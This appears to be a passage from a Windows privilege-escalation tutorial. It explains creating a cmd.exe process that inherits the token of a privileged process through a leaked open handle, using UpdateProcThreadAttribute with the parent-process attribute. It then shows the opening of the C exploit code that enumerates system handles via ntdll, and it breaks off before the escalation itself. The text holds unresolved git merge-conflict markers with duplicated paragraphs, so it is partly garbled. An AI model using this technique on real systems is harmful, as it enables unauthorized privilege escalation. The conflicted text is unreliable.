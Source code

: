 In this example, **instead of abusing the open handle to inject** and execute a shellcode, it's going to be **used the token of the privileged open handle process to create a new one**. This is done in lines from 138 to 148.

<<<<<<< HEAD
Note how the **function `UpdateProcThreadAttribute`** is used with the **attribute `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` and the handle to the open privileged process**. This means that the **created process thread executing** _**cmd.exe**_ **will have the same token privilege as the open handle process**.
=======
Note how the **function `UpdateProcThreadAttribute`** is used with the **attribute  `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` and the handle to the open privileged process**. This means that the **created process thread executing **_**cmd.exe**_** will have the same token privilege as the open handle process**.
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <wincrypt.h>
#include <psapi.h>
#include <tchar.h>
#include <tlhelp32.h>
#include "client.h"
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#pragma comment (lib, "kernel32")


HANDLE GetVulnProcHandle(void) {

    ULONG handleInfoSize = 0x10000;
    NTSTATUS status;
    PSYSTEM_HANDLE_INFORMATION phHandleInfo = (PSYSTEM_HANDLE_INFORMATION) malloc(handleInfoSize);
    HANDLE hProc = NULL;
    POBJECT_TYPE_INFORMATION objectTypeInfo;
    PVOID objectNameInfo;
    UNICODE_STRING objectName;
    ULONG returnLength;
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    DWORD dwOwnPID = GetCurrentProcessId();

    pNtQuerySystemInformation = GetProcAddress(hNtdll, "NtQuerySystemInformation");
    pNtDuplicateObject = GetProcAddress(hNtdll, "NtDuplicateObject");
    pNtQueryObject = GetProcAddress(hNtdll, "NtQueryObject");
    pRtlEqualUnicodeString = GetProcAddress(hNtdll, "RtlEqualUnicodeString");
    pRtlInitUnicodeString = GetProcAddress(hNtdll, "RtlInitUnicodeString");

    printf("[+] Grabbing handles...");

    while ((status = pNtQuerySystemInformation( SystemHandleInformation, phHandleInfo, handleInfoSize,
                                            NULL )) == STATUS_INFO_LENGTH_MISMATCH)
        phHandleInfo = (PSYSTEM_HANDLE_INFORMATION) realloc(phHandleInfo, handleInfoSize *= 2);

    if (status != STATUS_SUCCESS)
    {
        printf("[!] NtQuerySystemInformation failed!\n");
        return 0;
    }

    printf("done.\n[+] Fetched %d handles.\n", phHandleInfo->NumberOfHandles);
```